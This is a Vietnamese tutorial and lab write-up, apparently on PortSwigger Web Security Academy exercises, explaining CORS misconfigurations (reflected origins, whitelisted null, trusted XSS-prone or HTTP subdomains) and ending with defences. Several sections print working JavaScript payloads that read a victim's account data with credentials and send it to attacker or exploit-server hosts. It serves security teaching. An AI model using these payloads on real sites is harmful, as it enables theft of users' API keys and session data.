## CORS là gì?

CORS là cơ chế của trình duyệt cho phép một website kiểm soát việc truy cập tài nguyên từ một domain khác. CORS mở rộng và linh hoạt hơn Same-Origin Policy (SOP). Tuy nhiên, nếu cấu hình CORS không đúng hoặc quá lỏng lẻo, nó có thể tạo ra nguy cơ bị tấn công cross-domain. CORS không phải cơ chế bảo vệ chống các cuộc tấn công cross-origin như CSRF.

## Same-Origin Policy

Là cơ chế bảo mật hạn chế việc một website tương tác với tài nguyên thuộc domain khác. SOP được xây dựng để ngăn các hành vi nguy hiểm giữa các domain, chẳng hạn như một website đánh cắp dữ liệu riêng tư từ website khác. Thông thường, một domain có thể gửi request đến domain khác nhưng không được phép đọc response trả về.

## Nới lỏng Same-Origin Policy

Same-Origin Policy (SOP) khá nghiêm ngặt, nên nhiều phương pháp đã được phát triển để vượt qua các hạn chế này. Nhiều website cần tương tác với subdomain hoặc website bên thứ ba, vì vậy cần cho phép truy cập cross-origin đầy đủ. CORS cho phép nới lỏng SOP một cách có kiểm soát. CORS sử dụng một tập hợp HTTP header để xác định origin nào được tin cậy và các quyền liên quan, chẳng hạn như có cho phép truy cập kèm xác thực hay không. Các header này được trao đổi giữa trình duyệt và website khác origin mà trình duyệt đang muốn truy cập.

## Lỗ hổng do cấu hình CORS

Cấu hình CORS sai hoặc quá lỏng lẻo có thể cho phép origin không đáng tin cậy truy cập tài nguyên, từ đó tạo ra lỗ hổng bảo mật có thể khai thác.

### Server tự động tạo ACAO từ Origin do client gửi

Một số ứng dụng cần cho phép nhiều domain khác nhau truy cập. Việc duy trì danh sách domain được phép có thể phức tạp, nên một số ứng dụng chọn cách cho phép gần như mọi domain. Cách thường gặp là server đọc giá trị Origin từ request rồi phản chiếu giá trị đó vào header Access-Control-Allow-Origin.

Ví dụ:`Origin: https://malicious-website.com`

Server trả về:

```
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

Có nghĩa là:

- Domain malicious-website.com được phép truy cập tài nguyên.
- Request cross-origin được phép gửi kèm cookie.
- Request có thể được xử lý trong phiên đăng nhập của nạn nhân.

Vì server chấp nhận và phản chiếu bất kỳ Origin nào, nên bất kỳ website nào cũng có thể truy cập tài nguyên của website bị lỗi. Nếu response chứa dữ liệu nhạy cảm như API key hoặc CSRF token, kẻ tấn công có thể dùng JavaScript trên website độc hại để gửi request, đọc response và đưa dữ liệu về server của mình.

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://vulnerable-website.com/sensitive-victim-data', true);
req.withCredentials = true;
req.send();

function reqListener() {
    location = '//malicious-website.com/log?key=' + this.responseText;
};
```

Giải thích:

- XMLHttpRequest() → tạo request HTTP từ JavaScript.
- req.open('get', ...) → gửi GET request đến tài nguyên chứa dữ liệu nhạy cảm.
- req.withCredentials = true → yêu cầu gửi cookie/thông tin xác thực của phiên đăng nhập.
- req.send() → gửi request.
- this.responseText → lấy nội dung response từ server.
- location = ... → chuyển trình duyệt đến website của kẻ tấn công và đưa nội dung response vào URL để kẻ tấn công thu thập.

Lab 1: CORS vulnerability with basic origin reflection



 Payload:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://https://0a0d006a038213eb81fdca8a007d007b.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = '/log?key=' + this.responseText;
    };
</script>
```



Nộp API key để hoàn thành bài lab



### Lỗi khi phân tích header Origin

Một số ứng dụng hỗ trợ truy cập từ nhiều origin bằng cách sử dụng whitelist (danh sách trắng) các origin được phép. Khi nhận được một CORS request, origin được gửi lên sẽ được so sánh với whitelist. Nếu origin nằm trong whitelist, ứng dụng sẽ phản chiếu origin đó vào header Access-Control-Allow-Origin để cấp quyền truy cập.

VD, ứng dụng nhận request bình thường:

```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

Ứng dụng kiểm tra origin được gửi lên với danh sách origin được phép. Nếu origin nằm trong danh sách, nó sẽ phản chiếu origin như sau:

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

Các lỗi thường xảy ra khi triển khai whitelist origin cho CORS. Một số tổ chức quyết định cho phép truy cập từ tất cả subdomain của họ, bao gồm cả những subdomain chưa tồn tại trong tương lai. Một số ứng dụng cũng cho phép truy cập từ domain của các tổ chức khác, bao gồm cả subdomain của chúng.

Những quy tắc này thường được triển khai bằng cách kiểm tra tiền tố, hậu tố của URL hoặc sử dụng biểu thức chính quy. Bất kỳ sai sót nào trong quá trình triển khai đều có thể khiến quyền truy cập được cấp cho những domain bên ngoài không nằm trong dự định. Ví dụ, giả sử ứng dụng cho phép truy cập từ tất cả domain kết thúc bằng: `normal-website.com`

Kẻ tấn công có thể lợi dụng bằng cách đăng ký domain: `hackersnormal-website.com`. Vì domain này kết thúc bằng normal-website.com, nên có thể vượt qua kiểm tra. Ngược lại, giả sử ứng dụng cho phép truy cập từ tất cả domain bắt đầu bằng: `normal-website.com`, kẻ tấn công có thể sử dụng domain: `normal-website.com.evil-user.net`. Domain này bắt đầu bằng normal-website.com nhưng thực tế thuộc domain evil-user.net.

### Origin null nằm trong whitelist

Đặc tả của header Origin cho phép giá trị null. Trình duyệt có thể gửi giá trị null trong header Origin trong một số trường hợp đặc biệt:
- Redirect cross-origin (chuyển hướng giữa các origin khác nhau).
- Request từ dữ liệu được serialize.
- Request sử dụng giao thức `file:` 
- Request cross-origin từ sandbox.

Một số ứng dụng có thể đưa origin null vào whitelist để hỗ trợ việc phát triển ứng dụng trên máy local. Ví dụ, ứng dụng nhận request cross-origin:

```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Server phản hồi:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Trong trường hợp này, kẻ tấn công có thể sử dụng nhiều thủ thuật để tạo request cross-origin có giá trị Origin: null. Điều này sẽ thỏa mãn whitelist, từ đó cho phép truy cập tài nguyên giữa các domain. Ví dụ, có thể thực hiện bằng một iframe sandbox tạo request cross-origin:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"
src="data:text/html,
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='malicious-website.com/log?key='+this.responseText;
};
</script>">
</iframe>
```

Ý nghĩa: iframe chạy trong môi trường sandbox có thể khiến trình duyệt gửi request với Origin: null. Nếu server đã whitelist null và cho phép credentials, request có thể đọc dữ liệu nhạy cảm rồi chuyển dữ liệu đó sang domain của kẻ tấn công.

Lab 2: CORS vulnerability with trusted null origin



Thêm Origin: null



Xác nhận server đang whitelist/reflection null

Payload:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"
srcdoc="
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a8b001f0460fdfd80e603d5004b00d2.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='https://exploit-0a7000150421fd9f80e4024201630005.exploit-server.net/log?key='+this.responseText;
};
</script>">
</iframe>
```



Thu được API key và Submit để solve bài lab



### Khai thác XSS thông qua mối quan hệ tin cậy của CORS

Ngay cả khi CORS được cấu hình “đúng”, nó vẫn thiết lập một mối quan hệ tin cậy giữa hai origin. Nếu một website tin tưởng một origin đang tồn tại lỗ hổng XSS, kẻ tấn công có thể khai thác XSS trên origin đó để chèn JavaScript sử dụng CORS, từ đó lấy thông tin nhạy cảm từ website đang tin tưởng ứng dụng bị lỗi.

Ví dụ, có request:

```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Nếu server phản hồi:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Điều này có nghĩa là vulnerable-website.com tin tưởng subdomain.vulnerable-website.com và cho phép request cross-origin kèm credentials. Nếu kẻ tấn công phát hiện lỗ hổng XSS trên subdomain.vulnerable-website.com, họ có thể lợi dụng XSS để chèn JavaScript thực hiện request CORS và lấy API key. Ví dụ URL: `https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`

Trong đó:
- CORS → tạo mối quan hệ tin cậy giữa hai origin.
- Subdomain có XSS → trở thành điểm để kẻ tấn công thực thi JavaScript.
- JavaScript đó → gửi request CORS đến website tin tưởng subdomain.
- Nếu server cho phép credentials → có thể truy cập dữ liệu nhạy cảm như API key.

### Phá vỡ TLS do cấu hình CORS kém

Giả sử một ứng dụng sử dụng HTTPS nghiêm ngặt, nhưng lại đưa một subdomain đáng tin cậy đang sử dụng HTTP thuần vào whitelist. Ví dụ, ứng dụng nhận request:

```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Ứng dụng phản hồi:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Trong tình huống này, nếu kẻ tấn công có khả năng chặn lưu lượng mạng của người dùng, họ có thể lợi dụng cấu hình CORS để xâm phạm tương tác của nạn nhân với ứng dụng. Quy trình tấn công gồm:
- Nạn nhân thực hiện một request HTTP không mã hóa.
- Kẻ tấn công chèn một chuyển hướng đến: `http://trusted-subdomain.vulnerable-website.com`
- Trình duyệt của nạn nhân làm theo chuyển hướng.
- Kẻ tấn công chặn request HTTP và trả về một response giả mạo, trong đó chứa CORS request đến: `https://vulnerable-website.com`
- Trình duyệt nạn nhân thực hiện CORS request, với origin:`http://trusted-subdomain.vulnerable-website.com`
- Ứng dụng cho phép request vì origin này nằm trong whitelist. Dữ liệu nhạy cảm được yêu cầu sẽ được trả về trong response.
- Trang giả mạo do kẻ tấn công kiểm soát có thể đọc dữ liệu nhạy cảm và gửi dữ liệu đó đến bất kỳ domain nào do kẻ tấn công kiểm soát.

Lab 3: CORS vulnerability with trusted insecure protocols



Thử thêm Origin: http://0ac200f004f8dd6f80b8035400880000.web-security-academy.net, ta thấy Server HTTPS chấp nhận request CORS từ subdomain HTTP.



Payload: `<script>document.location="http://stock.0ac200f004f8dd6f80b8035400880000.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ac200f004f8dd6f80b8035400880000.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a75006a04deddd38099020001ae0009.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>`. 

Submit solution để solve bài lab





Giải thích payload:

`Đầu tiên nó chuyển trình duyệt của nạn nhân sang subdomain stock bằng HTTP, nơi có điểm XSS ở tham số productId. Phần 4<script> bắt đầu chèn JavaScript vào trang stock; đoạn JavaScript này tạo một XMLHttpRequest để truy cập https://0ac200...web-security-academy.net/accountDetails. req.withCredentials = true yêu cầu trình duyệt gửi kèm cookie phiên của nạn nhân, còn req.onload = reqListener nghĩa là khi server trả dữ liệu về thì hàm reqListener() sẽ được thực thi. Trong hàm này, this.responseText chính là nội dung trả về từ /accountDetails, có thể chứa thông tin như username và API key. Payload sau đó dùng location để chuyển trình duyệt tới https://exploit-0a75006a04deddd38099020001ae0009.exploit-server.net/log?key=..., qua đó đưa toàn bộ response vào Access log của Exploit Server. Cuối cùng, %3c/script> chính là dạng encode của </script>, được dùng để kết thúc đoạn script được chèn mà không làm thẻ <script> bên ngoài bị đóng sớm. Tóm lại: HTTP stock → XSS → XMLHttpRequest có cookie → CORS cho phép đọc /accountDetails → lấy response chứa API key → gửi response về Exploit Server.`

## Cách phòng chống tấn công dựa trên CORS

Các lỗ hổng CORS chủ yếu xuất phát từ cấu hình sai, vì vậy cần cấu hình CORS đúng cách:
- Cấu hình đúng: Chỉ định chính xác origin được phép trong Access-Control-Allow-Origin.
- Chỉ cho phép website đáng tin cậy: Không phản chiếu Origin từ request một cách tùy ý mà không kiểm tra.
- Không whitelist null: Tránh Access-Control-Allow-Origin: null vì có thể bị lợi dụng bởi sandbox hoặc tài liệu nội bộ.
- Tránh wildcard (*) trong mạng nội bộ: Không nên tin tưởng hoàn toàn vào cấu hình mạng để bảo vệ tài nguyên.
- CORS không thay thế bảo mật phía server: Vẫn phải sử dụng xác thực, quản lý session và các cơ chế bảo vệ dữ liệu phía server. CORS chỉ kiểm soát hành vi của trình duyệt.